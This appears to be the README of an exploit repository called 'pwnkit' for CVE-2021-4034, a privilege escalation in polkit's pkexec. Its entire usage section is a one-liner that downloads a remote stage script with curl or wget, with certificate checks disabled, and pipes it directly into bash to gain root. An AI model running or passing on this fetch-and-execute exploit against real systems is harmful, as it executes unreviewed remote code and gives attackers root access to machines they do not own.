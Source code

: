# pwnkit

CVE-2021-4034

Privilege escalation in polkit pkexec function.

Execution:


command -v curl >/dev/null && bash -c "$(curl -fsSLk raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)" || bash -c "$(wget --no-check-certificate -q0- raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)"

